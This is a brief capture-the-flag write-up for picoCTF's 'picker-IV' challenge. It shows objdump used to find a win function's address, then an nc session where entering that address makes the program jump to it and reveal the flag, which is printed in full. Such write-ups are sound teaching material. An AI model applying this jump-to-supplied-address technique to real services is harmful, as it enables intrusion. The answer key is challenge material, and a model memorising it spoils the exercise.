 You can use gdb to get address of win or just do objdump
```bash
$ objdump -D picker-IV -M intel | grep "win" 
```
Doing objdump with grep we get the address of win function
Now entering this address on connecting to the server, we get the flag

```bash
$ nc saturn.picoctf.net [REDACTED]
Enter the address in hex to jump to, excluding '0x': 000000000040129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
```

**FLAG - `picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}`**

